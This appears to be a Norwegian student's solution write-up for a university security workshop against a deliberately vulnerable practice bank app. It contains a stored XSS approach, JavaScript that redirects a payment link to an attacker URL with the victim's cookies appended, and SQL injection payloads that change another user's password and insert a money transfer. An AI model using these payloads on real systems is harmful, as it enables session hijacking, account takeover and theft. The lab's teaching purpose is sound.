






## IDATT2105 Full-stack applikasjonsutvikling
# Sikkherhetsworkshop

## Oppgave 1 (A3)

- Klarer du å injisere javascript inn i nettsidene? 

-  Klarer du å være så ekkel at du legger inn en betaling til sidemannen som gjør at de blir omdirigert til en ondsinnet side med innholdet av cookiene som parameter når de går inn på "konto" i sin nettbank?

## Løsning:

### Injisere javascript

Fra Jquery dokumentasjonen kan vi se at .html() metoden åpner opp siden til cross site scripting.

> By design, any jQuery constructor or method that accepts an HTML string — jQuery(), .append(), .after(), etc. — can potentially execute code. This can occur by injection of script tags or use of HTML attributes that execute code (for example, ). Do not use these methods to insert strings obtained from untrusted sources such as URL query parameters, cookies, or form inputs. Doing so can introduce cross-site-scripting (XSS) vulnerabilities. Remove or escape any user input before adding content to the document.

Med metoden initTable så kan vi også å sende en beskrivelse med script i kan man få kode til kjøre på andre sine nettlesere.



Her ser vi hvordan dette kommer opp i HTMLen



Når en annen åpner opp siden får de dette:



### Betaling som omdirigerer med cookie

Vi kan bruke denne javascript koden til å forandre på hvor betaling knappen sender oss.

```javascript
document
.querySelector("#navbar > ul:nth-child(1) > li:nth-child(3) > a")
.setAttribute('href', "www.ourevilsite.com");
```

Om vi ønsker å hente ut cookie data kan vi bruke document.cookie

```javascript
.setAttribute('href', "https://www.test.com/" + document.cookie)
```

Her ser vi hvor man blir derigert etter man trykker på betaling knappen:



## Oppgave 2 (A1)

- Klarer du å endre passordet til en annen i gruppa ved å bruke SQLinjection? 

- Klarer du å overføre masse penger til deg selv fra en annen i gruppa ved å bruke SQL-injection? 


## Løsning

### Endre passord til en annen i gruppa

Passord blir ikke rengjort/escaped på serveren så her kan vi bruke SQLinjection.
For eksempel på metoden addUser kan vi med et spesefikt passord lage vår egen query



For å gjennomføre en SQL injection legger vi passordet som:
```SQL
123'); 
UPDATE user SET password = 'easyPassword' WHERE (email = '123@hotmail.com
```

Dette slutter den orginale SQL spørringen og begynner vår egen der vi forandrer på passordet. 

En parentes og apostrof brukes på slutten av meldingen så det fungerer sammen med slutten av kommandoen som står i serveren.


### Overføre masse penger til deg selv fra en annen i gruppa

Når vi ønsker å sende en transaksjon kan vi bare bytte ut UPDATE user med en INSERT INTO transaction. 

Kommandoen vi brukte er:

```SQL
123'); 
INSERT INTO transaction (from_email,to_email,text,amount,transaction_time) 
VALUES('123@hotmail.com', 'jesperfh@ntnu.no','hei hei lettjente penger',5000,'2021-01-19 03:14:07
```

Dette er resultatet:



## Oppgave 3 (A7 og A2)

- Klarer du å finne passordet til en på gruppa di, kun ved å bruke
nettleseren?

- Identifiser 2 grove mangler i applikasjonen.

## Løsning

### Finne passord ved å bruke nettleseren

Vi kan bruke URLen: 
`/NotSoSecureBank/webresources/user/[email here]` dette returnerer en JSON av bruker dataen.

Postman applikasjonen kan være hjelpsom her.

Her er resultatet fra GET request på URLen:

```JSON
{
    "email": "123@hotmail.com",
    "firstName": "Michal",
    "lastName": "Panasewicz",
    "password": "easyPassword"
}
```
## Grove feil

En grov feil med serveren er at **passordene er lagret i klartekst**. Passord burde aldri lagres i klar tekst, istedet burde man bruke SHA encoding med salt. Med denne metoden så kan en hacker selv etter å ha fått full tilgang til databasen ikke få passordene.

At **prepareStatement ikke er brukt på alle SQL statements**. Vi ser for getTransaction metoden at dette blir brukt, men ikke på addUser metoden. Sikkerheten av en applikasjon er bare like god som dens svakeste ledd.
